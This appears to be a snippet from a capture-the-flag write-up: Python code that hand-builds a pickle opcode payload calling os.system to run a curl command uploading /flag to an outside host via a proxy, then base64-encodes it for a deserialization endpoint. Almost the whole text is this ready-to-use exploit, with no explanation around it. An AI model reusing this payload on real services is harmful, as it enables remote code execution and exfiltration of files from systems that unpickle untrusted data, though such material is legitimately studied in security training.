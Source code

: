 ```nginx
import base64
# 
opcode=b'''c__builtin__
map
p0
0(S'curl http://ichunqiu.com -F file=@/flag -x xxx.xxx.xxx.xxx:9999'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
tuple
p4
(g3
t\x81.'''

code=base64.b64encode(opcode)
print(code.decode('utf-8'))
```


